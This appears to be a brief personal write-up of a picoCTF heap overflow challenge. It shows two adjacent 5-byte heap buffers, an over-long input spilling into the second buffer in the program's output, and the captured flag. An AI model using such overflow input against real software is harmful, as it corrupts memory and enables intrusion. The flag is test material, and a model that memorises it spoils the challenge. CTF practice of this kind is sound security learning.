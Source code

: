 ```yaml
---
created: 2024-06-15T20:50
updated: 2024-06-15T20:55
---
```


```cpp
#define INPUT_DATA_SIZE 5
#define SAFE_VAR_SIZE 5
input_data = malloc(INPUT_DATA_SIZE);
safe_var = malloc(SAFE_VAR_SIZE);
```

Naïve attempt to overflow will... oh it worked.

```
Enter your choice: 2
Data for buffer: 0123456789012345678901234567890123456789

+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5e89e4f682b0  ->   0123456789012345678901234567890123456789
+-------------+----------------+
[*]   0x5e89e4f682d0  ->   23456789
+-------------+----------------+
```

I guess even heaps are connected.

```flag
picoCTF{my_first_heap_overflow_4fa6dd49}
```
